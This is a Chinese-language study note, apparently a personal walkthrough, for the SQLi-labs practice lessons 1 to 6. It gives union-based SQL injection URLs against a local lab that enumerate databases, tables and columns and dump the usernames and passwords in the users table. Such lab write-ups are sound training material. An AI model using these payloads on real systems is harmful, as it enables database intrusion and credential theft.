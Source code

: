 ```yaml
---
tags:
  - SQL
  - CTF
title: SQL-labs
---
```

[0x13 SQL注入](0x13%20SQL注入.md)
# less-1
- 数字型
![](图片/Pasted%20image%2020241103182158.png)
![](图片/Pasted%20image%2020241103182234.png)
![](图片/Pasted%20image%2020241103182341.png)
![](图片/Pasted%20image%2020241103182451.png)
![](图片/Pasted%20image%2020241103182507.png)
字段数为3，回显点为2，3
![](图片/Pasted%20image%2020241103182739.png)
数据库名security 数据库 版本 5.7.28
逐级爆破
http://127.0.0.1/sqli-labs/Less-1/?id=-1%27%20union%20select%201,2,group_concat(schema_name)%20from%20information_schema.schemata--+
![](图片/Pasted%20image%2020241103193607.png)
http://127.0.0.1/sqli-labs/Less-1/?id=-1%27%20union%20select%201,database(),group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()--+
![](图片/Pasted%20image%2020241103193901.png)
查询表users里的字段名，发现有多个不同的users表，有多个不同的字段
![](图片/Pasted%20image%2020241103194218.png)
限定数据库为security
http://127.0.0.1/sqli-labs/Less-1/?id=-1%27%20union%20select%201,database(),group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27users%27%20AND%20table_schema=%27security%27--+
`SELECT * FROM users WHERE id='-1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='users' AND table_schema='security'-- ' LIMIT 0,1`
![](图片/Pasted%20image%2020241103194611.png)
爆破字段
http://127.0.0.1/sqli-labs/Less-1/?id=-1%27%20union%20select%201,database(),(select%20(group_concat(username,0x7e,password))%20from%20users)--+
SELECT * FROM users WHERE id='-1' union select 1,database(),(select (group_concat(username,0x7e,password)) from users)-- ' LIMIT 0,1
![](图片/Pasted%20image%2020241103195451.png)
# less-2

![](图片/Pasted%20image%2020241103195630.png)
无数据回显 证明存在注入点
![](图片/Pasted%20image%2020241103195833.png)
![](图片/Pasted%20image%2020241103195819.png)
判断字段数 order by 4报错 order by 3 无数据显示
![](图片/Pasted%20image%2020241103200137.png)
![](图片/Pasted%20image%2020241103200158.png)
判断回显点 也可以用来判断字段数
![](图片/Pasted%20image%2020241103200346.png)
逐级爆破 得到数据库名 数据库版本
![](图片/Pasted%20image%2020241103200935.png)
爆破表名
http://localhost/sqli-labs/Less-2/?id=-1%20union%20select%201,database(),group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%27security%27--+
![](图片/Pasted%20image%2020241103201248.png)
爆破字段名
http://localhost/sqli-labs/Less-2/?id=-1%20union%20select%201,database(),group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%27security%27%20and%20table_name=%27users%27--+
![](图片/Pasted%20image%2020241103201455.png)
爆破字段
http://localhost/sqli-labs/Less-2/?id=-1%20union%20select%201,%202,%20(select%20group_concat(username,%200x7e,%20password)%20from%20security.users)--+
![](图片/Pasted%20image%2020241103201955.png)
# less-3
与less-1，less-2相似
先通过报错，判断闭合方式
![](图片/Pasted%20image%2020241103204823.png)
判断字段数
![](图片/Pasted%20image%2020241103205330.png)
判断回显点
![](图片/Pasted%20image%2020241103205455.png)
数据库相关和版本
剩下的逐级爆破
![](图片/Pasted%20image%2020241103210850.png)
![](图片/Pasted%20image%2020241103211001.png)
![](图片/Pasted%20image%2020241103211445.png)
# less-4
同理
先报错回显，看闭合方式
![](图片/Pasted%20image%2020241103223356.png)
![](图片/Pasted%20image%2020241103223502.png)
剩下的同上
# less-5
无页面回显点 但是有报错回显
![](图片/Pasted%20image%2020241104181803.png)
[猜解](0x13%20SQL注入.md#^b4610c)
# less-6
与less-5同理 id 闭合方式不同




